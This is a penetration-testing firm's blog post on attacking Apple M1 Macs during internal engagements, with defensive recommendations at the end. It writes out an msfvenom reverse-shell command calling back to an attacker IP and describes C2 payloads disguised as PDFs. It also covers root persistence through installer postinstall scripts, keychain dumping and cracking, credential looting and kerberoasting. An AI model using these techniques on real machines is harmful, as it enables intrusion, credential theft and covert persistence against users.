









Same posted on my work blog at https://hub.schellman.com/penetration-testing/analyzing-macos-on-apple-m1-silicon
Intro
Mac based corporate environments may be rare but finding a penetration testing team experienced enough to thoroughly test that environment can be even more rare. It’s a niche that is commonly perceived to be more secure than your typical Windows domain out of obscurity and even more so when you throw M1 based Macs into the mix. I’ll be going over some of Schellman’s methodology on how we approach an internal engagement knowing that we’ll be landing on macOS and some best recommendations to keep that Mac environment secure.
Initial Access
Initial access comes in many forms in macOS, some of which but are not limited to malicious documents, Installer packages, executables, or malicious scripts a user may be tricked into running. The testing environment I’ll be working out of is a standard Kali box acting as the attacker, then a 2021 M1 (not M1 Pro or M1 Max, although these chips would be impacted in the same way) MacBook Pro running macOS Monterey version 12.0.1 in a Virtual Machine without Rosetta 2 installed to demonstrate how this affects initial access and tooling.
Fingerprinting a M1 Mac
First, a quick word on M1 Macs and how they act out of the box. Below is a screenshot taken from my freshly deployed Virtual Machine showing output of the “uname -a” command. From this, we verify it’s running the arm64 version of macOS, the “About this Mac” pane, and finally the popup a user receives when trying to run an application not optimized for M1 processors. Basically, macOS is asking the user to allow Rosetta 2 to be installed, thus allowing x64 / non-M1 optimized applications to run, but how does this affect our payloads if we click Not Now and does this make the endpoint any more secure?

Simple Shell
Let’s start nice and simple with a basic reverse shell, this could be hidden inside a malicious application, a script presented to the user as required for a job function in an email, or quickly ran on an unlocked, unmonitored Mac. This example is executed via Python2 that ships by default on macOS as of writing. Apple has stated that it will be removed in the future (https://developer.apple.com/documentation/macos-release-notes/macos-catalina-10\_15-release-notes) . The payload is generated via “msfvenom” on our attacker box like below and tells the payload to call back to the attacker’s IP on port 443:
msfvenom -p python/shell_reverse_tcp LHOST=10.0.1.189 LPORT=443
Once executed on the target Mac via Python in the top Terminal window, we see the shell calling back to the attacker without issue and allows us to execute another uname, whoami, and hostname commands as expected. But this only gives us basic command execution, so let’s crank up the complexity and try out some of the command-and-control (C2) tooling available for macOS engagements.

Binary Payloads
Numerous C2s exist to generate an executable targeting macOS but most also build specifically for x64 processors, not the Apple M1 chip. The “poseidon” payload generated out of Mythic gives us our first douse of cold water without Rosetta 2 installed:

At least if Rosetta 2 were installed, we could help the payload out by specifying the architecture in Terminal by running “arch -x86_64 ./poseidon”, but we aren’t giving in just yet. Let’s try out an “apfell” payload which runs through osascript instead. Running the generated apfell.js payload through “osascript” gets us a successful callback to Mythic and we’re able to run a whoami and uname showing we’re still running on as arm64 on the M1 Virtual Machine:

Malicious Documents
Now that we know apfell payloads have no issue calling back, let’s fancy this up a little and wrap it around a better pretext that user is more likely to run. We can utilize the Mystikal project along with Mythic to generate the following payload that masquerades as a PDF (bottom square) to the user, but really executes the same apfell payload as before giving us a new callback in Mythic (top square) and leaving the user unaware of the active attacker now living on their Mac.

Installer packages
Lots of payloads are working great but there are two remaining issues, we have no persistence, meaning we’ll lose the connection if the user reboots, and we’re only running as the “schellman” local user. Both of these issues are solved via the very flexible installer packages commonly utilized for more complex application installations. Using an internally developed process (credit: Nathan Rague) our team is able to generate a package that does all of the following:
• Establish persistence via a LaunchDaemon as the “root” user and a LaunchAgent as the current user executed at a defined interval • Copy any of the created payloads to a local directory to be later called by the above persistence • Automatically configure new sleep settings, execute the initial payload, or a secondary payload via the installer packages postinstall script to ensure the target mac stays online for testing and a connection is received.
The postinstall script also gives us the unique opportunity to fix the missing Rosetta 2 problem if we like. Investigation was completed shortly after I worked on my first M1 Mac on exactly how Rosetta 2 is installed and it turns out, it’s just an added argument onto the software update program built into macOS and only made available on M1 Macs. Combine this with knowing postinstall scripts run commands normally reserved for copying files or other installation activities, we can slide in the following line to install Rosetta 2 along with our pentest payload: “/usr/sbin/softwareupdate --install-rosetta --agree-to-license”. One last takeaway to be noted on installation packages on M1 Macs in particular, a package that has yet to be optimized will likely fail stating that it’s not compatible with this version of macOS. This ended up being a simple precheck that Installer does when loading up a .pkg file, Installer checks the packages Distribution file for the target architecture which non-optimized macs will list as “hostArchitectures="x86_64”, we can solve the install issue by adding “arm64” to the hostArchitectures section and our install will complete successfully.
Initial access gained, now what?
We’ve successfully got a call back from a payload in the M1 Mac , now we’ll run through some local enumeration, privilege escalation opportunities, and then move into network and lateral movement investigation.
Assuming we’re running under the context of a regular user, we’ll be looking around the user’s home folder first to see what is sitting cleartext. Apple does protect Downloads, Documents, and Desktop with something called Transparency Consent and Control (TCC) framework which forces you to allow access to a directory via the desired application in System Preferences / Security Privacy / Privacy or hitting allow on the popup like below:

However, anything in your actual /Users/schellman/ folder is readable by any user logged in locally, admin or not, which could be any of the following:
• .zsh_history / .bash_history (showing any commands run giving context to how a machine was setup, default deployment activity, passwords that were passed inline to another application, hints toward configuration files which may contain more sensitive information, hints toward other hosts this endpoint has ssh’d to in the past)
• .aws, .config, or .azure directories that may contain unsecured credentials
• SSH keys
• Slack cookies (good for social engineering co-workers in to resetting passwords or general information gathering)
• Library Folder containing Messages from iCloud and then Keychains for local saved passwords
• Browser history
Keychains are our next point of focus, Apple makes it easy to save and sync passwords via your Keychain and multiple devices which much like on Windows, can also be retrieved with the right access. The actual keychain database is located under each user's home folder at ~/Library/Keychain/login.keychain-db and can be downloaded for further analysis offline. We can use the dump-all feature of chainbreaker to get an idea of the content of the Keychain to see if it’s in use and worth the time put into cracking the password for it.

This being my own test keychain, I can verify I have 1 useful password to another test machine saved but the remaining saved passwords are mostly app passwords used by iCloud and other macOS related services. The cracking time varies depending on complexity but retrieving the Keychain hash then unlocking it can open another valuable pivot point into a cloud only environment. Here we can see my very secure Keychain password of “schellman” being cracked via “hashcat -m 23100” and a short wordlist of company names:

Then providing the cracked password to chainbreaker again, we can see the saved password:

Finally, we’ll go through some lateral movement and domain reconnaissance we can perform from macOS. Assuming we’re not in a cloud only environment or a user’s home network, nmap installs just fine on a Mac to give us a network footprint over an office internet connection or VPN so we can find our next targets that may be hosting vulnerable services. Also, with .NET 5.0 supporting cross compilation, we can now drop Inveigh to disk and capture SMB NTLM challenge and responses along with various man-in-the-middle and password sniffing attacks.
If we land on a domain joined mac, we can perform much of the same domain enumeration as we can on Windows like below:
List Users: dscl "/Active Directory/CORP/All Domains" ls /Users
List Computers: dscl "/Active Directory/CORP/All Domains" ls /Computers
List Groups: dscl "/Active Directory/CORP/All Domains" ls /Groups
List Domain Info: dsconfigad -show
From here, we can then bring in the Bifrost project to interact with AD and list out Kerberos tickets for the current user and list out kerberoastable hashes to be cracked offline later by specifying its “-kerberoast true” flag.
Recommendations / Prevention?
Many of the attacks presented here can be prevented from a user education level covering not installing unsigned packages or accepting unsolicited prompts that want to make changes to their system. We always recommend a strong monitoring platform that alerts on unsigned packages being installed or unsigned executables being allowed to execute by a user and using strong passwords to prevent cracking, these can largely be assigned as requirements via most RMM solutions.
Wrap Up
We’re just scratching the surface in this article on the myriad of attack paths one can take when working through a macOS penetration test. Below are just some of the projects we’ve talked about here and that our team are fans of. We’re constantly tuning our testing practices and tooling to ensure our team brings the greatest value to all aspects of penetration test, please reach out if there are any questions relating to how our team can help with your next internal engagement.
Projects cited:
https://github.com/its-a-feature/Mythic
https://github.com/cedowens/SwiftBelt
https://github.com/its-a-feature/offensive_macos
https://github.com/its-a-feature/bifrost
https://github.com/D00MFist/Mystikal
https://github.com/n0fate/chainbreaker
https://github.com/Kevin-Robertson/Inveigh
https://cedowens.medium.com/initial-access-checks-on-macos-531dd2d0cee6